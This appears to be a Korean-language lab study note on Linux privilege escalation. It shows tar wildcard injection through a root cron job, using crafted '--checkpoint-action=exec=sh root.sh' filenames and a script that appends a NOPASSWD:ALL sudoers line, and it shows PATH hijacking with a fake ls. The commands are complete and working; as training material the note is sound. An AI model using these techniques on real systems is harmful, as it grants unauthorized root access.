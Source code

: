### Wildcard Abuse
`*` : An asterisk that can match any number of characters in a file name.
`?`: Matches a single character.
`[ ]`: Brackets enclose characters and can match any single one at the defined position.
`~`: A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.
`-` : A hyphen within brackets will denote a range of characters.

**tar 명령어 옵션**
```jsx
htb_student@NIX02:~$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

**cron job 에서 사용하는 와일드카드 확인**
```jsx
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

**제한없는 sudoers에 우리를 추가하도록 조작**
```jsx
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
```

**파일 생성 확인**
```jsx
htb-student@NIX02:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
```

**sudo 권한 조작된 것을 확인**
```jsx
htb-student@NIX02:~$ sudo -l

Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: ALL
```



### PATH
PATH는 실행 파일을 찾을 수 있는 디렉토리 집합을 정의하는 환경 변수이다. 계정의 PATH 변수는 절대 경로를 지정하지 않고도 명령을 실행할 수 있도록 한다.

**PATH 예시**

```jsx
htb_student@NIX02:~$ echo $PATH

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

`PATH=.:$PATH` 를 입력하고 `export PATH`를 한다면, 기존의 정상적인 바이너리를 악의적인 바이너리로 바꿔칠 수 있다.

**악의적인 ls 예시**

```jsx
htb_student@NIX02:~$ PATH=.:${PATH}
htb_student@NIX02:~$ export PATH
htb_student@NIX02:~$ echo $PATH

.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

htb_student@NIX02:~$ touch ls
htb_student@NIX02:~$ echo 'echo "PATH ABUSE!!"' > ls
htb_student@NIX02:~$ chmod +x ls
htb_student@NIX02:~$ ls

PATH ABUSE!!
```



